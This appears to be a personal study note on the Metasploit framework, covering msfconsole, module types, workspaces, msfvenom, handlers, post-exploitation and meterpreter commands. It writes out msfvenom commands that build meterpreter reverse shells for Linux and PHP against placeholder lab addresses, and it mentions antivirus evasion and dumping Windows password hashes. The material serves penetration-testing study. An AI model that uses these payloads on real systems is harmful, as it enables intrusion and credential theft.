 
Start: msfconsol 
generate custom payloads: msfvenom

#### Modules and categories:
- Auxiliary: Support modules such as scanners and fuzzers
- Encoders: Encode exploits or payloads to hide from antivirus 
- Evasion: Modules that try to evade antivirus -> More advances way then encoding
- Exploits: Different exploits for different targets.
- NOPs: Do nothing, used to create buffers 
- Payloads: Code that will run on the target:

Different types of payloads:
![[Pasted image 20241117205823.png]]


Useful console commands:
```
- use:
- back: 
- seach:
- info: 
- set:
- unset:
- setg:
- unsetg:
- show options
```

Remember when an exploit is chosen, we can use the default payload OR use `show payloads` to look for other options. 


#### Workspaces:
In larger pentests, we can organize attacks and enumerations in a database while working. 

```
systemctl start postgresql
msfdb init 


---- Then launch msfconsole ------
Relevant commands: 

db_status: Confimes the db is running
workspace: lists workspaces 
db_nmap: Do a nmap scan, and save the findings in the db 
hosts:
services: 
```


### msfvenom:

Generate custom and encoded payloads 

```
msfvenom -l payloads: lists all payloads

### Examples: ###

Generate meterpreter rev shell for linux:
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Generate meterpreter rev shell with php:
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
```


Based on the payload we generate with msfvenom, we need to pick a handler (code that runs on our machine) that fits our chosen payload.  We often use `exploit/multi/handler`, but we need to customize its payload to fit the payload we have on the target:  

Example: For the .elf reverse shell, we used the standard multi handler with: `linux/x86/meterpreter/reverse_tcp` as the payload for the handler. 

When we get a connection on the target, we have to do post exploitation. 

`seach type:post platfrom:<target_platfrom> any_other_keyword`

Then in the same console as we have the reverse shell, background the session, and use the post exploitation selected. In the post exploitation, we specify the session we want to post-exploit. 

```
Usefull:
backgroud: background the current session
session: lists the current sessions
```


### meterpreter:

- Runs on the target system and act as a reverse shell.
- Runs in the memory of the target, not on disk.

We have different versions of meterpreter, that fits different targets. List possible meterpreter payloads:

`msfvenom --list payloads | grep meterpreter`

Relevant questions to answer when picking the correct meterpreter payload:
- The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
- Components available on the target system (Is Python installed? Is this a PHP website? etc.)
- Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.)

 When we have a meterpreter "shell" on the target, we have lots of commands to use:
```
help: Since commands vary from different meterpreters
ps: Lists the current processes 
sysinfo: Lists systeminfo
hashdump: outputs the hashed found in the SAM (Security Account Manager) database (Windows)

....
```






